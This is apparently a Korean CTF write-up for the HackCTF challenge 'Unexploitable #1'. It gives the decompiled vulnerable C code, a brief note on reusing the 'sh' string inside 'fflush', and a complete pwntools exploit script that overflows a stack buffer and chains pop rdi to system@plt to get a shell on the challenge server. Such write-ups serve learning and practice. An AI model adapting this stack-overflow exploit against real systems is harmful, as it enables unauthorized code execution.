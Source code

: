 ```yaml
---
title: "[HackCTF]Unexploitable #1"
date: 2019-12-26
tags: [HackCTF]
categories: [HackCTF]
---
```


그냥 일종의 trick문제다.

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s; // [rsp+0h] [rbp-10h]

  setvbuf(stdout, 0LL, 2, 0LL);
  setvbuf(stdin, 0LL, 2, 0LL);
  fwrite("Easy RTL ha? You even have system@plt!\n", 1uLL, 0x27uLL, stdout);
  fflush(stdin);
  fgets(&s, 64, stdin);
  return 0;
}
```

system 가젯을 쓸 수 있다. 근데 fflush가 존재한다. 이거 그냥 Layer7 CTF talmo_party~! 문제에서 나왔던거랑 똑같다. objdump -h 로 .dynstr 위치 가져와서 fflush에서 sh만 가져와서 system함수 인자로 넘겨주면 된다. 

![](https://user-images.githubusercontent.com/32904385/71452273-c2987280-27c6-11ea-9071-3ea61a6d2db8.png) 

> exploit.py

```python
from pwn import *

context.arch = 'amd64'
e = ELF('./Unexploitable_1')
#p = process('./Unexploitable_1')
p = remote('ctf.j0n9hyun.xyz',3023)

sh = 0x4003bf
prdi = 0x00000000004007d3 # pop rdi ; ret

payload = ''
payload += '\x90' * 0x10
payload += 'realsung'
payload += p64(prdi)
payload += p64(sh)
payload += p64(e.plt['system'])
p.sendlineafter('!\n',payload)

p.interactive()
```

